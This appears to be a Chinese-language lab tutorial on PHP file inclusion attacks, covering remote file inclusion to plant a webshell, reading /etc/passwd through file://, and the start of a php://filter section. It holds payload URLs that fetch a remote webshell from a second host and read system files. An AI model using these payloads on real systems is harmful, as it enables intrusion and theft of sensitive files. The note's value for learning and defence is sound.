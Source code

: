 
## 远程文件包含

**利用**

- 不需要猜对方路径，构造webshell直接getshell

**前提条件**

- 前提是能找到这个漏洞~

**文件包含getshell**

- 远程webshell文件如下
  ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-14-49-00.png)

<p>


- 远程文件包含getshell

-     http://192.168.10.77/include.php/?file=http://192.168.10.52/xxx.xxx

    ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-14-50-13.png)
    ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-14-52-59.png)

## file协议文件包含

**利用**

- file://+绝对路径：访问系统本地文件

**前提条件**

- 读取的目标必须知道目标文件绝对路径

**文件读取**

- file协议文件读取

<p>


-     http://192.168.10.77/include.php/?file=file:///etc/passwd

    ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-15-05-44.png)

## php://filter协议文件包含

**利用**

- php配置文件直接文件包含php文件读取时会被自动解析，我们可以通过php://filter协议获取文件源码

**前提条件**

- 没有特殊限制，前提是能找到这个漏洞~    

**文件读取**
